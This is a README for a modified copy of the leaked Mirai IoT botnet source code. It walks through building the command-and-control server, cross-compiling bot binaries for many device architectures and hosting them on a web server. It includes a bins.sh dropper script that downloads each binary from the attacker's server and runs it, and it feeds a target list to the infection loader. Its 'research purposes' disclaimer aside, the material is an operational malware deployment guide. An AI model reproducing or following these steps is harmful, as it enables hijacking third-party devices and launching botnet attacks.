 # Mirai BotNet to Tashiro(未来砲)
<!--

  ,～（（((((((～～､
  (  ＿（（ (((＿　)
  |/　~^^＼)／^^~ヽ|
  |　　＿　《　＿   |
 (|-(_//_)-(_//_)-|）
  |　　 　厶､　　   |     ／￣￣￣￣￣￣￣￣￣￣￣
  ＼   ||||||||　／　　＜  Mirai BotNet to Tashiro.
    ＼_________／       ＼＿＿＿＿＿＿＿＿＿＿＿

-->
Leaked Linux.Mirai Source Code for Research/IoT Development Purposes

Uploaded for research purposes and so we can develop IoT and such.

Modified from https://github.com/jgamblin/Mirai-Source-Code

I was referring to this for a moment.<br />
https://gist.github.com/ppoffice/86beb0f90de5aeec75aabd517ebc5e43

## Requirements
* To be able to use vi.
* Do not run in WSL.(I tried, but I couldn't use mysql or compile it.)
* It is recommended that Linux be used as the operating system.

## Credits
[Anna-senpai](https://hackforums.net/showthread.php?tid=5420472)

## Disclaimer
This repository is for academic purposes, the use of this software is your
responsibility.

## Warning
The [zip file](https://www.virustotal.com/en/file/f10667215040e87dae62dd48a5405b3b1b0fe7dbbfbf790d5300f3cd54893333/analysis/1477822491/) for this repo is being identified by some AV programs as malware.  Please take caution.

## Install

※If you are not logged in as root, be sure to add sudo and follow the installation instructions below.<br />
※If you are unable to install the software, please refer to the following URL for installation.<br />
https://programmer.group/mirai-botnet-environment-setup-steps.html <br />
https://github.com/ruCyberPoison/-Mirai-Iot-BotNet/blob/master/TUTORIAL.txt

```
# sudo apt-get install git gcc golang electric-fence mysql-server mysql-client
```
If you are using debian, you cannot install mysql as it is, so please install it in the following way.
```
# wget https://dev.mysql.com/get/mysql-apt-config_0.8.22-1_all.deb
# sudo dpkg -i mysql-apt-config_0.8.22-1_all.deb
# sudo apt update && sudo apt install mysql-server mysql-client
```
After installing the dependency tools, follow the steps below.
```
# git clone https://github.com/ware255/Mirai-Source-Code-plus.git
# cd Mirai-Source-Code-plus/scripts
```
Cross Compile
```
# chmod +x cross-compile.sh
# sudo ./cross-compile.sh
```
Enter "n" here.
```
Install mysql-server and mysql-client (y/n)? n
```
Edit .bashrc
```
# vi ~/.bashrc
```
Add the following string to the last line
```
export PATH=$PATH:/etc/xcompile/armv4l/bin
export PATH=$PATH:/etc/xcompile/armv5l/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
export PATH=$PATH:/etc/xcompile/i586/bin
export PATH=$PATH:/etc/xcompile/m68k/bin
export PATH=$PATH:/etc/xcompile/mips/bin
export PATH=$PATH:/etc/xcompile/mipsel/bin
export PATH=$PATH:/etc/xcompile/powerpc/bin
export PATH=$PATH:/etc/xcompile/powerpc-440fp/bin
export PATH=$PATH:/etc/xcompile/sh4/bin
export PATH=$PATH:/etc/xcompile/sparc/bin

export GOPATH=$HOME/go
```
After adding and saving, enter the following command
```
# mkdir ~/go
# source ~/.bashrc
```
In mirai folder, run build.sh script
```
# cd ../mirai
# chmod +x build.sh
# ./build.sh release telnet
```
Get golang requiremnts
```
# go get github.com/go-sql-driver/mysql
# go get github.com/mattn/go-shellwords
```
If you have iptbales/ip6tables or any firewall install disable it.
```
# sudo service iptables stop
```
Database setup<br />
※It will ask you to set a password, make sure you remember this.
```
# sudo /usr/bin/mysql_secure_installation
```
Go to `cd cnc/` and replace the root password you just entered with the MySQL_Password.
```
const DatabaseAddr string   = "127.0.0.1:3306"
const DatabaseUser string   = "root"
const DatabasePass string   = "MySQL_Password"
const DatabaseTable string  = "mirai"
```
Add users to mysql.
```
# cd ../scripts
# sudo mysql -uroot -pMySQL_Password
> INSERT INTO users VALUES (NULL, 'tashiro', 'mystrongestpassword', 0, 0, 0, 0, -1, 1, 30, '');
> exit
# sudo service mysql restart
```
Once you restart the mysql server, go to your debug folder ./mirai/release, you will seen a compiled file named cnc execute it.
```
# cd ../mirai/release
# sudo ./cnc
```
Open a new window and execute the following command
```
# cd ..
# cp prompt.txt release/
```
Then, use telnet to connect to your IP address.<br />
The following is an example of running the telnet command.
```
# telnet 192.168.19.19
```
OK, well use this user name and password to login in this case the username is : `tashiro` and the password is : `mystrongestpassword`

again in you server Terminal some like Putty or mobaxterm.<br />
Go to this directory ../Mirai-Source-Code/mirai/release
```
# cd ./Mirai-Source-Code/mirai/release
```
Next, install and start the Apache server.
```
# sudo apt install apache2
# sudo service apache2 start
```
copy the mirai files at the apache source.
```
# sudo cp mirai.* /var/www/html
```
well we need to delete the index to show the index file directory on browser.
```
# rm /var/www/html/index.html
```
Then open a browser and enter http://localhost or your IP address and see if the file appears.

Go to /var/www/html and create bins.sh.
```
# cd /var/www/html
# touch bins.sh
```
Next, open `bins.sh` and write the following (replace `IP OR HOSTNAME:80` with the vps IP you have or your own IP address).
```
#!/bin/sh

# Edit
WEBSERVER="IP OR HOSTNAME:80"
# Stop editing now 

BINARIES="mirai.arm mirai.m68k miraint.x86 miraint.spc miraint.sh4 miraint.ppc miraint.mpsl miraint.mips miraint.arm7 miraint.arm5n miraint.arm"

for Binary in $BINARIES; do
	wget http://$WEBSERVER/$Binary -O dvrHelper
	chmod 777 dvrHelper
	./dvrHelper
done

rm -f "
```
If you have vps, please upload /var/www/html using sftp.<br />
※If you do not have a vps, you may leave it as is.<br />
Please check by yourself if it really uploaded, I don't know much about vps or anything like that.

Now restart the Apache server.
```
# sudo service apache2 restart
```
Next, to build the loader, go to Mirai-Source-Code-plus/loader/ and build the loader.<br />
※Omit commands to move.
```
# chmod +x build.sh
# ./build.sh
```
and after than type this code but put you filename here --> file.txt before paste
```
# cat file.txt | ./loader wget http://dyn.com
```
This completes the installation. :)<br />
Thank you for your hard work. Take a break and have a cup of coffee or something.
